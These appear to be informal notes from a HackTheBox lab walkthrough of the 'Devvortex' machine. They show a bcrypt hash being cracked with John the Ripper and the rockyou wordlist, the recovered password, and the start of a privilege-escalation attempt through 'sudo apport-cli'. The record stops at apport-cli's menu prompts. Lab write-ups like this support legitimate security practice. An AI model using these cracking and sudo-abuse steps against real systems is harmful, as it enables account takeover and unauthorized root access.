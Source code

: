 
cred found

lewis :  $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u


alright on checking the ahsh found that it's bycrpt so to mehhtods to crack

```python
john --format=bcrypt --wordlist=$wordlists/passwords/rockyou.txt hash.txt
```

```
┌──(dedrknex㉿kali)-[~/oscp/hackthebox/Devvortex_10.10.11.242/credentials]
└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:09 DONE (2024-03-20 17:26) 0.1094g/s 157.5p/s 157.5c/s 157.5C/s winston..michel
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

``` bash
logan@devvortex:~$ sudo  /usr/bin/apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 2


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What particular problem do you observe?


Choices:
  1: Removable storage device is not mounted automatically
  2: Internal hard disk partition cannot be mounted manually
  3: Internal hard disk partition is not displayed in Places menu
  4: No permission to access files on storage device
  5: Documents cannot be opened in desktop UI on storage device
  6: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/C): 1

*** 

```
